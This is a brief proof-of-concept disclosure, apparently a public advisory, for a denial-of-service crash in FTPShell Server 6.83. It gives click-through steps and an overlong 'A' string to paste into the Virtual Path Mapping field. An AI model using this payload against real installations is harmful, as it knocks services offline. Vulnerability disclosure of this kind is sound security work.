 # FTPShell Server 6.83  -- Denial of Service

Discoverer: leiothrix
Discovery time: 2019/4/27
###Tested Version: 6.83
###Software Link: http://www.ftpshell.com/downloadserver.htm

```
Steps to exploit:
1.Run Python Code
2.Open the txt file and copy content to clipboard
1.Open FTPShell Server
2.Select "Manage FTP Accounts"
3.Select "Configure accounts..."
4.Select "Add path" and in "Virtual Path Mapping" Paste Clipboard
5.Click on "OK"
```

POC:
>AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Result map:
![图片](https://upload-images.jianshu.io/upload_images/703764-605e3cc2ecb664f6.jpg?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

![图片](https://upload-images.jianshu.io/upload_images/703764-605e3cc2ecb664f6.jpg?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
